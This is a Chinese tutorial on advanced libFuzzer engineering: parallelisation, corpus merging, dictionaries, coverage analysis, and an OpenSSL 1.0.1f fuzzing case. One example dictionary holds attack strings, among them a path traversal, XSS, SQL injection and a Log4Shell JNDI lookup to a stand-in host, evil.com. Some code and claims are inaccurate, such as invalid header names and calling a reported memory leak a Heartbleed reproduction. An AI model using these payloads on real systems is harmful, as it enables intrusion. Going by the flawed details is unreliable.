

# libFuzzer进阶实战：从基础应用到工程优化-先知社区

> **来源**: https://xz.aliyun.com/news/19044  
> **文章ID**: 19044

---

## 前言

在上一篇《libFuzzer模糊测试基础教程：从入门到实战》中，说了libFuzzer的基本概念、环境搭建、简单fuzzer编写和基础参数调优。这些应该能足以让你跑起第一个fuzzer，发现一些明显的bug

但当你真正在生产环境中大规模使用libFuzzer时，会遇到新的挑战：语料库越来越臃肿但效率却在下降、字典策略难以跟上程序迭代的节奏、并行化后效果反而变差、覆盖率数据看得懂但不知道怎么优化。这些都是基础教程没有涉及的"进阶问题"

本文将从这些实际工程问题出发，提供系统性的优化策略和完整的实战案例。我们会探讨语料库管理、智能并行化、字典工程学、深度覆盖率分析，以及通过OpenSSL模糊测试来演示高级特性的实际应用

## Step 1：挑战认知：工程化应用中的核心问题

### Step 1.1：语料库膨胀：规模增长与效率下降的矛盾

跑fuzzing久了你会发现一个奇怪现象：语料库从开始的几十个样本一路飙升到几万个，但找到bug的速度反而越来越慢。这不是工具退化了，而是被"垃圾文件"拖累了

语料库里每个文件理论上都应该代表一条独特的代码路径——就像每个员工都应该有自己的专长。但现实很骨感：时间一长，语料库里会堆积大量"划水文件"，它们触发的路径都差不多，但占着茅坑不拉屎

这就造成了一个恶性循环：libFuzzer每次变异都从语料库里随机选种子，垃圾文件越多，选到好种子的概率就越低。就像大海捞针，针还是那几根，但海水越来越多

问题的根源是我们缺少一套"员工考核机制"来评估每个样本的真实价值。简单的覆盖率指标只能告诉你"跑了哪些代码"，但跑不了哪些代码更有价值、哪些样本更容易找到bug，这些关键问题还是一头雾水

### Step 1.2：字典策略的局限性与优化需求

libFuzzer虽然挺聪明，能根据覆盖率自动调整变异策略，但它有个硬伤：不懂你程序的"行话"

举个例子，你要测HTTP解析器，libFuzzer可能花几百万次尝试才能瞎猫碰死耗子，拼出个"Content-Length:"。这就像让一个不会英语的人瞎蒙英语单词——概率太低了。如果事先告诉它这些关键词，效率能提升几十倍

但字典也不是万能药，实际用起来有几个坑：

**第一个坑**：通用字典太泛，专用字典太窄。网上下的字典啥协议都有点，但你的程序可能有特殊的字段名，通用字典覆盖不到。自己写字典又需要对协议很熟悉，还得不断维护

**第二个坑**：程序一升级，字典就过时了。你辛辛苦苦整理的关键词，程序改个版本可能就废了一半

**第三个坑**：动态内容搞不定。像session token、时间戳这些每次都变的东西，你没法提前写进字典里。但这些东西偏偏又很重要

### Step 1.3：并行化的困境：为什么加机器不等于加效果

"单机跑得慢，那就加机器"——这个想法很自然，但在模糊测试里经常失效。你可能会发现8台机器并行跑，效果还不如1台机器专心跑

问题出在哪里？主要有三个方面

**重复劳动问题**：如果8个fuzzer都在探索同一片代码区域，本质上就是8个人挖同一个坑，效率自然不高。这种现象在使用相同种子和变异策略时特别明显

**资源竞争问题**：多个实例同时读写语料库会产生I/O瓶颈。大家都在往同一个目录写新样本，都在读取相同的种子文件，这种竞争会拖慢所有进程

**协调成本问题**：没有合理的分工，各个实例之间缺乏有效协调，导致整体效率下降

## Step 2：高级优化策略：让工具为你所用

### Step 2.1：智能并行化：让每个worker都有自己的使命

真正有效的并行化不是简单的资源堆叠，而是精细的分工协作

#### Step 2.1.1：Jobs模式：多进程协作

```
# 启动10个并行实例，每个实例独立工作
./fuzzer -jobs=10 corpus
```

**关键参数详解**：

* `-jobs=N`: 设置并行运行的fuzzer实例数量，每个实例在独立进程中运行
* `-workers=N`: 限制并发worker数量，避免资源过度竞争
* `-reload=1`: 定期重新加载语料库，共享其他实例发现的新样本

#### Step 2.1.2：Fork模式：父子进程分工

Fork模式是libFuzzer默认在单进程模式下运行，而Fork模式通过多个子进程与父进程的配合来进行模糊测试。使用Fork模式可以提升模糊测试的容错性，特别是在处理内存溢出、超时和崩溃情况时，Fork模式通常用于大规模模糊测试时，可以通过独立的子进程来并行化测试

**参数说明**：

* `-fork=N`：启用Fork模式，开启N个子进程进行fuzz，父进程负责调度、调度和崩溃合并；
* `-jobs=N`：并行作业数量，与`-workers`配合使用，推荐用于分布式/CI等现代调度场景；
* `-workers=N`：每个工作进程中使用的线程数；
* `-ignore_ooms=1`：如果子进程发生内存溢出，继续fuzz并保存问题输入；
* `-ignore_timeouts=1`：如果子进程超时，继续fuzz并保存问题输入；
* `-ignore_crashes=0`：默认遇到崩溃会中止fuzz，可设置为1忽略并继续

```
# 启动4个子进程，父进程负责协调
./fuzzer -fork=4 corpus -ignore_crashes=1 -ignore_timeouts=1
```

**Fork模式的优势**：

* 父进程专门负责监控和协调
* 子进程专注于fuzzing工作
* 内存隔离，一个进程崩溃不影响其他进程
* 更好的资源管理和负载均衡
* 可以忽略各种异常情况继续测试

#### Step 2.1.3：分层并行策略

不同的fuzzer实例应该有不同的"使命"：

```
# 实例1：专门探索新路径，使用较小的输入
./fuzzer corpus1 -max_len=64 -timeout=1 &

# 实例2：深度测试，使用较大的输入  
./fuzzer corpus2 -max_len=4096 -timeout=30 &

# 实例3：基于字典的变异
./fuzzer corpus3 -dict=protocol.dict -only_ascii=1 &

# 实例4：专门测试边界情况
./fuzzer corpus4 -max_len=65536 -ignore_timeouts=1 &
```

### Step 2.2：语料库优化策略：让每个样本都物有所值

#### Step 2.2.1：智能合并：去除冗余，保留精华

```
# 合并多个语料库，只保留能增加覆盖率的样本
mkdir corpus_optimized
./fuzzer -merge=1 corpus_optimized corpus1 corpus2 corpus3
```

**合并策略详解**：

* 按覆盖率贡献排序，优先保留高价值样本
* 自动检测相似样本，避免冗余
* 支持增量合并，定期清理无效样本

#### Step 2.2.2：断点续传：大规模合并的可靠性保障

```
# 使用控制文件实现断点续传
./fuzzer corpus1 corpus2 -merge=1 -merge_control_file=/tmp/merge_state

# 如果中断，可以从断点继续
killall -SIGUSR1 fuzzer  # 保存当前状态
./fuzzer corpus1 corpus2 -merge=1 -merge_control_file=/tmp/merge_state  # 继续合并
```

### Step 2.3：字典策略进阶：从通用到专用的演进

#### Step 2.3.1：分层字典设计

不要把所有关键词都堆在一个字典里，分层设计更有效：

```
# 基础协议字典 - protocol_base.dict
"GET"
"POST" 
"HTTP/1.1"
"Content-Length"
"Host"

# 应用层字典 - app_specific.dict  
"username"
"password"
"session_id"
"admin"
"config"

# 攻击向量字典 - attack_vectors.dict
"../../../etc/passwd"
"<script>alert(1)</script>"
"1' OR '1'='1"
"${jndi:ldap://evil.com/a}"
```

使用时可以将多个字典合并：

```
# 合并多个字典文件
cat protocol_base.dict app_specific.dict > combined.dict
./fuzzer corpus -dict=combined.dict
```

#### Step 2.3.2：动态字典生成

从目标程序中自动提取关键词：

```
# 从二进制文件中提取字符串作为字典
strings target_binary | grep -E '^[a-zA-Z_][a-zA-Z0-9_]*$' > extracted.dict

# 从源代码中提取函数名、变量名
grep -roE '\b[a-zA-Z_][a-zA-Z0-9_]*\b' src/ | sort -u > source_words.dict
```

### Step 2.4：高级语料库管理：精细化运营

#### Step 2.4.1：定期清理策略

长期运行的fuzzer需要定期"大扫除"：

```
#!/bin/bash
# 语料库维护脚本
CORPUS_DIR="corpus"
BACKUP_DIR="corpus_backup_$(date +%Y%m%d)"
TEMP_DIR="corpus_temp"

# 备份原始语料库
cp -r $CORPUS_DIR $BACKUP_DIR

# 创建临时目录
mkdir -p $TEMP_DIR

# 合并去重，只保留最有价值的样本
./fuzzer -merge=1 $TEMP_DIR $CORPUS_DIR

# 统计优化效果
OLD_COUNT=$(ls $CORPUS_DIR | wc -l)
NEW_COUNT=$(ls $TEMP_DIR | wc -l) 
OLD_SIZE=$(du -sh $CORPUS_DIR | cut -f1)
NEW_SIZE=$(du -sh $TEMP_DIR | cut -f1)

echo "优化前: $OLD_COUNT 个文件, $OLD_SIZE"  
echo "优化后: $NEW_COUNT 个文件, $NEW_SIZE"

# 替换原语料库
rm -rf $CORPUS_DIR
mv $TEMP_DIR $CORPUS_DIR
```

#### Step 2.4.2：分级存储策略

根据样本价值实施分级管理：

```
# 高价值样本：能触发关键路径
mkdir corpus/tier1_critical

# 中等价值：能触发一般路径  
mkdir corpus/tier2_normal

# 低价值：边缘路径或冗余样本
mkdir corpus/tier3_edge

# 手动根据测试结果分级管理
# 需要结合覆盖率报告进行人工分析
```

### Step 2.5：深度覆盖率分析：不仅仅是数字游戏

libFuzzer使用基于SanitizerCoverage（SanCov）的插桩方式记录哪些代码路径已经被执行过了。它依赖LLVM编译器提供的功能，在编译时插入探针代码，以便在运行时收集覆盖率信息

#### Step 2.5.1：基础覆盖率原理

每当Fuzzer执行一次输入，它会：

1. 收集当前输入触发的路径经过信息
2. 判断是否是新的路径
3. 如果是新路径，将该输入加入语料库

最基础的覆盖率编译选项：

```
clang++ -fsanitize=fuzzer -fsanitize-coverage=trace-pc-guard -g fuzzer.cc -o fuzzer
```

**基础参数说明**：

* `-fsanitize=fuzzer`：启用libFuzzer驱动
* `-fsanitize-coverage=trace-pc-guard`：在每个基本块插入PC路径追踪代码

#### Step 2.5.2：高级编译时插桩配置

```
# 全面的覆盖率跟踪
clang++ -fsanitize=fuzzer \
        -fprofile-instr-generate \
        -fcoverage-mapping \
        -fsanitize-coverage=trace-pc-guard,trace-cmp,trace-gep,trace-div \
        -g -O1 fuzzer.cpp -o fuzzer_with_cov
```

**插桩选项详解**：

* `trace-pc-guard`: 基本块覆盖率跟踪
* `trace-cmp`: 比较操作跟踪，帮助穿越条件分支
* `trace-gep`: 内存访问模式跟踪
* `trace-div`: 除法操作跟踪，发现整数溢出

#### Step 2.5.3：覆盖率数据收集与分析

```
# 设置覆盖率数据输出
export LLVM_PROFILE_FILE="fuzzer_%p.profraw"

# 运行fuzzer收集数据
./fuzzer_with_cov corpus -runs=1000000

# 合并多个进程的覆盖率数据
llvm-profdata merge -sparse fuzzer_*.profraw -o merged.profdata

# 生成详细报告
llvm-cov show fuzzer_with_cov -instr-profile=merged.profdata \
  -format=html -output-dir=coverage_report

# 生成函数级别的覆盖率摘要
llvm-cov report fuzzer_with_cov -instr-profile=merged.profdata \
  -show-functions -show-instantiation-summary
```

#### Step 2.5.4：热点分析：找到测试的薄弱环节

```
# 找出覆盖率最低的函数
llvm-cov report fuzzer_with_cov -instr-profile=merged.profdata | \
  sort -k4 -n | head -20

# 分析特定函数的覆盖情况
llvm-cov show fuzzer_with_cov -instr-profile=merged.profdata \
  -name=vulnerable_function
```

覆盖率低不一定是坏事，可能表示那些代码需要特殊条件才能触发。但覆盖率为0的函数需要警惕——它们可能是"死代码"，也可能是"隐藏功能"，还可能是"错误处理路径"。

## Step 3：实战案例分析

### Step 3.1：OpenSSL模糊测试实战：高级特性综合应用

我们选择OpenSSL作为实战目标，不仅因为它是安全软件的代表，更重要的是它能很好地展示libFuzzer高级特性的实际应用价值。

**为什么选择OpenSSL做案例？**

1. **复杂度适中**：OpenSSL的SSL/TLS协议解析逻辑足够复杂，能展示各种优化策略的效果
2. **工具链完整**：有现成的测试套件和构建脚本，便于学习和实践
3. **问题多样**：既能发现crash，也能发现内存泄漏等质量问题
4. **实用价值**：掌握SSL库的模糊测试方法对安全测试很有价值

通过这个案例，将前面学到的语料库优化、并行化策略、覆盖率分析等技术综合应用到实际项目中。

#### Step 3.1.1：构建项目

首先下载和构建存在漏洞的OpenSSL版本：

```
# 下载项目
git clone https://github.com/google/fuzzer-test-suite.git
cd fuzzer-test-suite/openssl-1.0.1f
./build.sh
cd BUILD
```

#### Step 3.1.2：编写fuzzer

以下代码展示了对OpenSSL的SSL会话进行模糊测试，通过fuzzer提供的不同数据包：

```
#include <openssl/ssl.h>
#include <openssl/err.h>
#include <cassert.h>
#include <cstdint.h>
#include <cstddef.h>

#ifndef CERT_PATH
# define CERT_PATH
#endif

// OpenSSL 初始化
SSL_CTX *Init() {
    SSL_library_init();                    //初始化 OpenSSL库
    SSL_load_error_strings();             //加载 OpenSSL 错误字符串
    ERR_load_BIO_strings();              //加载 BIO 错误字符串
    OpenSSL_add_all_algorithms();        //加载 OpenSSL 算法
    SSL_CTX *sctx;                       //创建 SSL 上下文
    assert (sctx = SSL_CTX_new(TLS_method()));

    assert(SSL_CTX_use_certificate_file(sctx, CERT_PATH "server.pem",
                                        SSL_FILETYPE_PEM));  //加载服务器证书
    assert(SSL_CTX_use_PrivateKey_file(sctx, CERT_PATH
                                       "server.key",SSL_FILETYPE_PEM)); //加载服务器私钥
    return sctx;
}

//Fuzz 入口
extern "C" int LLVMFuzzerTestOneInput(const uint8_t *Data, size_t Size) {
    static SSL_CTX *sctx = Init();           //初始化 SSL 对象
    SSL *server = SSL_new(sctx);            //创建 SSL 连接
    BIO *sinbio = BIO_new(BIO_s_mem());     //创建 BIO 内存
    BIO *soutbio = BIO_new(BIO_s_mem());    //创建 BIO 内存  
    SSL_set_bio(server, sinbio, soutbio);   //设置 BIO 对象到 SSL
    SSL_set_accept_state(server);           //设置 SSL 为接受状态
    BIO_write(sinbio, Data, Size);          //将输入数据写入 BIO
    SSL_do_handshake(server);               //执行 SSL 握手
    SSL_free(server);                       //释放 SSL 对象
    return 0;
}
```

这个fuzzer的设计哲学是"把谎言当真话喂给程序"。fuzzer会生成各种畸形的SSL数据包，其中就包括那种"payload长度字段与实际数据不符"的心跳包。

#### Step 3.1.3：编译

编译需要包含完整的sanitizer支持：

```
clang++ -g -O2 -fno-omit-frame-pointer \
        -fsanitize=address,fuzzer \
        -fsanitize-coverage=trace-cmp,trace-gep,trace-div \
        -I ../openssl-1.0.1f/include \
        -L ../openssl-1.0.1f \
        openssl_fuzzer.cpp -lssl -lcrypto -ldl \
        -o openssl_fuzzer
```

#### Step 3.1.4：Fuzzing

现在开始实际的模糊测试，配置运行环境和种子文件，fuzzer 要求公钥和私钥文件和它在一个目录下：

```
# 将证书文件复制到当前目录  
cp ../openssl-1.0.1f/runtime/* ./

# 创建语料库目录
mkdir -p corpus

# 配置语料库
echo "aa" > ./corpus/seed  

# 开始fuzzing
./openssl_fuzzer -max_total_time=300 -detect_leaks=0
```

参数说明：

* `-max_total_time=300`：限制总运行时间为300秒
* `-detect_leaks=0`：禁用内存泄漏检测，专注于crash发现
* 证书文件（server.pem, server.key）是SSL握手必需的

运行后你会看到fuzzer开始工作，不断变异输入并监控程序行为

#### Step 3.1.5：Crash成果分析

在实际测试中，如果不使用-detect\_leaks=0参数，LeakSanitizer会检测到内存泄漏问题：



从输出结果来看，这次fuzzing触发了内存资源管理方面的问题。具体表现为CRYPTO\_malloc分配的64字节内存（32字节直接泄漏 + 32字节间接泄漏）在SSL握手过程中未能正确释放。这类问题的实际影响主要体现在几个方面：第一是长时间运行的服务可能因为累积的内存泄漏导致资源耗尽；第二是证明了libFuzzer + LeakSanitizer工具链能够深入到SSL协议栈的内部逻辑；第三是内存泄漏虽然不像crash那么直观，但在生产环境中往往影响更持久，可能导致服务可用性问题。从技术角度看，这次测试验证了我们的fuzzer设计和编译配置都能正常工作，说明模糊测试能够发现多种类型的安全相关问题

### Step 3.2：实战总结

通过这次OpenSSL Heartbleed模糊测试实战，可以总结出几个关键观察：

**1. 工具链效果**：libFuzzer + LeakSanitizer的组合确实能够检测到多种类型的内存安全问题  
**2. 问题类型**：内存泄漏虽然不是直接的crash，但在生产环境中同样可能造成安全影响**3. 测试深度**：能够触及SSL协议栈的内部资源管理逻辑，说明fuzzer设计思路可行  
**4. 实际价值**：这类资源管理问题在实际部署中可能比单纯crash的影响更加持久  
**5. 环境验证**：测试环境、编译配置和fuzzer代码都能按预期工作

### Step 3.3：工具协作与生态融合：AFL联合libFuzzer

在实际的大型项目中，单一工具往往难以覆盖所有测试场景。AFL和libFuzzer的联合使用是比较常见的工具协作方式之一，两者可以在不同场景下发挥各自优势

#### Step 3.3.1：AFL联合加速：两种fuzzer的优势互补

libFuzzer可以和AFL联合使用，比如先用AFL进行初步的Fuzz测试，使用AFL生成的样本进行libFuzzer测试，对目标函数进行专注性的模糊测试

**联合使用策略**：

```
# 第一阶段：使用AFL快速生成大量语料
afl-fuzz -i seeds -o afl_findings target_binary @@

# 第二阶段：将AFL发现的语料导入libFuzzer进行深度测试  
cp afl_findings/queue/* libfuzzer_corpus/
./libfuzzer_target libfuzzer_corpus -max_total_time=3600

# 第三阶段：将libFuzzer发现的新语料反馈给AFL
cp libfuzzer_corpus/* afl_findings/queue/
```

**联合优势**：

* AFL擅长路径探索，能快速发现新的代码分支
* libFuzzer擅长深度变异，能在特定路径上进行精细测试
* 两者语料库可以互相促进，形成正向循环

#### Step 3.3.2：实践建议

在实际项目中使用AFL+libFuzzer联合策略：

1. **初期探索**：使用AFL快速建立基础语料库
2. **深度挖掘**：libFuzzer针对特定函数进行精细化测试
3. **持续循环**：定期同步两个工具的语料库发现
4. **问题汇总**：统一管理和分析来自不同工具的发现

## 总结：建立体系化的模糊测试思维

### Step 4.1：从点到面的系统性思考

折腾了这么多libFuzzer的高级特性，你会发现一个规律：每个特性都不是孤立存在的，它们是一套组合拳。语料库优化不是简单的删删文件，而是要想清楚什么样的测试输入最有价值；字典不是关键字的大杂烩，而是要理解你的程序到底在期待什么输入；并行化不是无脑开更多进程，而是让不同的fuzzer有不同的分工；覆盖率也不是追求数字好看，而是要找到那些还没被测试到的角落

### Step 4.2：关键要点总结

通过Heartbleed复现的实战案例，我们可以总结出高级模糊测试的几个核心要点：

**1. 语料库管理是门艺术**：不是越多越好，而是越精越好。每个样本都应该代表独特的代码路径

**2. 字典设计需要领域知识**：要告诉fuzzer你的程序"懂什么话"，分层设计比简单罗列更有效

**3. 并行化要分工协作**：不同角色解决不同问题，避免简单的资源堆叠。

**4. 覆盖率是导航工具**：告诉你下一步该往哪走，而不是最终目标

**5. 实战案例是最好的老师**：理论再好，不如动手一次

### Step 4.3：工程化思维的重要性

模糊测试的高级特性不是用来炫技的，而是用来解决真实问题的。当你的测试规模上去了，时间拉长了，目标复杂了，这些特性就会从"可选项"变成"必需品"

一个成功的模糊测试项目需要：

**摸清目标程序的底细**：不能上来就瞎测，得先搞明白程序是怎么工作的，数据怎么流转，关键函数在哪里。知己知彼，百战不殆

**细节决定成败**：编译选项选错了，sanitizer没开对，种子文件准备得不合适，任何一个环节出问题都可能让你白忙活

**看数据调策略**：覆盖率数据告诉你哪里还没测到，性能监控告诉你资源是不是用对地方了，崩溃分析告诉你种子质量怎么样。这些数据不是用来看着好看的，是用来指导下一步行动的

**持续改进，不断迭代**：没有一劳永逸的配置，fuzzing是个持续优化的过程

### Step 4.4：发展方向与学习建议

fuzzing技术还在快速发展，AI辅助种子生成、机器学习驱动的变异策略、云原生分布式测试等新玩意儿层出不穷。但别被新技术唬住了，基础原理和工程化思维才是核心竞争力

**几条实在的建议**：

1. **先把基础打扎实**：不理解目标程序怎么工作，再高级的工具也白搭
2. **工具要用熟**：libFuzzer的各种参数和选项，至少得知道什么时候用什么
3. **会写脚本**：重复性的工作都应该自动化，这是工程师的基本素养
4. **会看数据**：大量的测试数据里藏着金子，得有能力把它们挖出来
5. **保持学习**：技术更新很快，但不用追每个热点，选对方向深入就行

记住：优秀的fuzzing不是会用最多功能的，而是知道什么时候用什么功能的。优秀的模糊测试不是偶然的幸运，而是精心设计和持续优化的结果
